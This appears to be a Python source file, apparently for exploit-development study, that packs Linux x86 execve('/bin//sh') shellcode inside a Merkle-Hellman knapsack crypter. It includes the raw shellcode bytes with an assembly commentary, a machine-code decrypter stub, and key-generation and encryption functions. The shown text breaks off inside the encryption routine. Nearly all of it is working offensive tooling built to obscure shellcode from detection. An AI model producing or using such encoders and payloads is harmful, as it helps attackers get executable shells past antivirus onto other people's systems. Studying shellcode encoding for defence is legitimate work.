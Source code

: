```python
from ctypes import CDLL, CFUNCTYPE, c_char_p, cast
from sys import argv
import random
import math

libc = CDLL("libc.so.6")

# Execve("/bin//sh", null, null) 
shellcode = "\\x31\\xc9\\xf7\\xe1\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"
original_size = "\\x"+"{:02x}".format(int(len(shellcode) / 4))

#    xor ecx,ecx
#    mul ecx
#
#    push eax
#    push 0x68732f6e
#    push 0x69622f2f 
#
#    mov ebx, esp
#    mov al, 0x0b
#    int 0x80

# Merkle-Hellman crypter stub :
decrypter = "\\xeb\\x4d\\x66\\x8b\\x43\\x0a\\x66\\xf7\\x26\\x66\\xf7\\x73\\x08\\x66\\x89\\xd0\\xc3\\x5b\\x8d\\x7b\\x0c\\x89\\xfe\\x31\\xc9\\xf7\\xe1\\xb1{size}\\xe8\\xe0\\xff\\xff\\xff\\x66\\x51\\xb1\\x08\\x01\\xcb\\x4b\\x99\\x8a\\x13\\x66\\x39\\xd0\\xf8\\x78\\x04\\x66\\x29\\xd0\\xf9\\xd1\\xdd\\xfe\\xc9\\x75\\xec\\xc1\\xed\\x18\\x87\\xea\\x88\\x17\\x47\\x8d\\x76\\x02\\x66\\x59\\x66\\x49\\x75\\xd0\\xeb\\x11\\xe8\\xbd\\xff\\xff\\xff{pki}{encrypted}"

# Private and Public key generator
def mhk_keygen():
    # Generate a superincreasing sequence w where the bigger element is <= 255
    w = []
    w.append(random.randint(1,2))
    for i in range(0,7):
        s , j = 0, 2**i
        s += random.randint(1,2)
        for k in range (0, i+1):
            s += w[k]
        w.append(s)

    # Generate q and r
    s = sum(w)
    q = random.randint(s + 1, 4096)
    r = random.randint(1, q - 1)
    while math.gcd(q, r) != 1:
        r = random.randint(1, q -1)

    # The private key
    priv_key = (w, q, r)

    # Generate now the public key
    pub_key = []
    for i in w:
        pub_key.append((i*r) % q)

    return (priv_key, pub_key)


# Encrypt the shellcode, return a list of the encrypted bytes value.
def mhk_crypt(pub, shellcode):
    shellcode_b = bytes.fromhex(shellcode.replace('\\x',''))
```